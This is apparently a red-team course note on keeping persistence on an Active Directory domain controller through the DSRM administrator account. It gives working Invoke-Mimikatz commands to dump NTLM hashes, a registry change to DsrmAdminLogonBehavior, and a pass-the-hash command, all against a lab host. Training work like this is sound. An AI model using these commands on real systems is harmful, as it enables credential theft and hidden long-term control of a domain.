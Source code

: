 ```yaml
---
title: "Persistence With DSRM And Mimikatz"
tags: [
	hacking,
	crtp,
	persistence,
  powershell
]
---
```

We have domain admin, lets really sink our hook in and ensure persistence.

It's pretty easy with ['Invoke-Mimikatz.ps1'](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

## What is DSRM?
Directory Services Restore Mode (aka DSRM), is a safe mode boot option for Windows Server domain controllers.  This is a backdoor to the database for administrators to used to repair, recover, and restore an Active Directory database.

## Exploit
There is a local administrator on every DC called "Administrator" whose password is the DSRM password.  

DSRM password (SafeModePassword) is required when a server is  
promoted to Domain Controller and it is rarely changed.  

After altering the configuration on the DC, it is possible to pass the  
NTLM hash of this user to access the DC.

```PowerShell
# Dump DSRM password (needs DA privs)  
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc

RID  : 000001f4 (500)
User : Administrator
NTLM : a102ad5753f4c441e3af31c97fad86fd
```

```PowerShell
# Compare the Administrator hash with the Administrator hash of below command  
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

RID  : 000001f4 (500)
User : Administrator
NTLM : af0686cc0ca8f04df42210c9ac980760
```

#### Change logon behavior
The Logon Behavior for the DSRM account needs to be changed  
before we can use its hash.

```PowerShell
Enter-PSSession -Computername dcorp-dc  
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

#### Pass the hash
```PowerShell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```
